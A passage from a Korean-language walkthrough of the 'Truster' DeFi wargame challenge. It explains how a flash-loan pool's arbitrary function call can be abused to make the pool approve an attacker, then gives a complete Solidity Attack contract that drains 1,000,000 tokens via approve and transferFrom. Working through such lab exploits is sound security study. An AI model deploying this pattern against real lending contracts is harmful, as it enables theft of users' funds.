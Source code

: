 당연히 2번째 케이스를 이용하는 것이 편할 것이다. 여기에서 functionCall로 공격자에게 `TrusterLenderPool`가 가지고 있는 `1000000 ether`를 전송하려 한다면 매우 고달파 질 것이다. 잔액체크를 우회할 방법이 없기 때문이다. 그렇다면, 생각할 수 있는 것은 `functionCall`로 밑밥을 깔아놓고, `flashLoan` 함수가 정상적으로 끝난 다음에 돈을 빼가는 것이다.

ERC20를 접해본적이 있다면, 느낌이 올 것이다. 바로 `approve`/`transferFrom`를 이용하는 것이다. 여기에서 개인적으로 이 문제가 어려웠던 2번째 이유가 문제가 됐다. `approve`와 `transferFrom` 두 함수에 대한 이해가 모두 잘 못 돼있었다. 이해가 올바르다면, 이 부분은 스킵해도 좋다.
* `approve`: `msg.sender`(owner)가 가진 잔액을 `spender`가 `amount` 한도 내에서 사용할 수 있게 함.
* `transferFrom`: `sender`가 가진 잔액을 `recipient`에게 `amount`만큼 전송. 이때, *이 함수의 caller에게 주어진 `allowance`에서 `amount`가 공제됨.*

`transferFrom`를 사용할 때, 주의할 점은 바로 이것이다. 이 함수를 호출한 자에 대해 ether를 전송할 수 있도록 허용되어 있어야 한다. `sender`도 아니고, `recipent`도 아니다 (`sender`는 `msg.sender`가 아니다). 당연하게도 이러한 권리는 `approve`에 의해 승인된다. 

이제 이 두 함수의 관계를 이용해 익스플로잇을 작성해보자. `approve`에서 `msg.sender`가 `allowance`의 owner이다. 따라서, 이 함수를 호출하는 caller는 `TrusterLenderPool`가 되어야 한다. 그리고 `spender`는 `transferFrom`의 caller가 되어야 한다 (`amount`는 당연히 `1000000 ether`). 이유는 우리는 `flashLoan` 함수가 종료된 다음에 돈을 빼돌려야하기 때문이다. 여기에서 다시 2가지 풀이가 있을 수 있다: 컨트랙트를 작성해서 푸는 방법과 Javascript만으로 푸는 방법.

1. 컨트랙트를 이용하는 방법
* Attack.sol

~~~
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "./TrusterLenderPool.sol";

contract Attack {

    constructor() {

    }

    function attack(address pool, address token, address attacker) public {
        
        TrusterLenderPool(pool).flashLoan(
            0,
            attacker,
            token,
            abi.encodeWithSignature(
                "approve(address,uint256)",
                address(this), 1000000 ether
            )
        );

        IERC20(token).transferFrom(
            pool, attacker, 1000000 ether
        );
    }
}
~~~
